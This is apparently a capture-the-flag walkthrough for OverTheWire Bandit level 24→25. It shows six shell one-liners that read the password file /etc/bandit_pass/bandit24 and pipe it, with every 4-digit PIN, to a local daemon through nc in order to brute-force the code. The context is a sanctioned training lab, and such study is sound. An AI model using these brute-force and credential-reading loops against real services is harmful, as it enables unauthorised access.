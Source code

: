 # Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time


### 🔑 Solution

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Then enter the password obtained from the previous challenge.

### 🔑🔑🔑🔒 Brute-force Concept

![brute-force](brute-force.jpg)

Write a loop function that repeatedly sends the value to localhost:30002 up to 10,000 times.

There are many ways to solve this challenge. Tools like `awk`, `sed`, `echo`, `cat`, `printf`, and `paste` can be useful for manipulating the data.

Below are some example commands that can help you complete the challenge.
```
{ for pin in $(seq -w 9999 -1 0000); do awk -v pin="$pin" '{print $0, pin}' /etc/bandit_pass/bandit24; done; } | nc localhost 30002
```
```
for pin in $(seq -w 9999 -1 0000); do sed "s/\$/ $pin/" /etc/bandit_pass/bandit24; done | nc localhost 30002
```
```
seq -w 9999 -1 0000 | while read -r pin; do sed "s/\$/ $pin/" /etc/bandit_pass/bandit24; done | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do printf '%s\n' "$(cat /etc/bandit_pass/bandit24) $pin"; done; } | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do paste -d' ' /etc/bandit_pass/bandit24 <(printf $pin); done; } | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do echo gb8====bandit24password==== $pin; done; } | nc localhost 30002
```
![b24s1](b24s1.png)
![b24s2](b24s2.png)
![b24s3](b24s3.png)
![b24s4](b24s4.png)
![b24s5](b24s5.png)
![b24s6](b24s6.png)

#### 💻coding + 🎨creativity = ♾️🚀countless_possibility

![b24s7](b24s7.png)

Congratulations! You’ve found the flag for the next challenge.







